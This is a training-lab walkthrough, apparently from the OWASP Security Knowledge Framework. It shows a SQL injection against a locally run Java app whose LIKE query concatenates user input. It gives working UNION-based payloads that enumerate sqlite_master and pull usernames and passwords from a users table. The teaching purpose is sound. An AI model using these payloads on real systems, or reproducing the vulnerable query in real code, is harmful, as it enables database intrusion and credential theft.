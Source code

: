 # KBID 156 - SQLI \(Like\)

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](../../.gitbook/assets/java/SQLI-Like/1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/java/SQLI-Like/2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
  public List<User> getUser(String username) {
        String sql = "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId";
        List<User> users = jdbcTemplate.query(sql, (resultSet, rowNum) -> new User(rowNum,
                resultSet.getString("UserName"), resultSet.getString("email"), sql));
        return users;
    }
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](../../.gitbook/assets/java/SQLI-Like/3.png)

```text
http://http://localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/java/SQLI-Like/4.png)

```text
http://127.0.0.1:5000/home/Admin%25' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/java/SQLI-Like/5.png)

```text
http://localhost:5000/home/Admin%25' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](../../.gitbook/assets/java/SQLI-Like/6.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](../../.gitbook/assets/java/SQLI-Like/7.png)

```text
http://localhost:5000/home/Admin%25' UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](../../.gitbook/assets/java/SQLI-Like/8.png)

```text
http://localhost:5000/home/Admin%25' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](../../.gitbook/assets/java/SQLI-Like/9.png)

```text
http://localhost:5000/home/Admin%25' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}
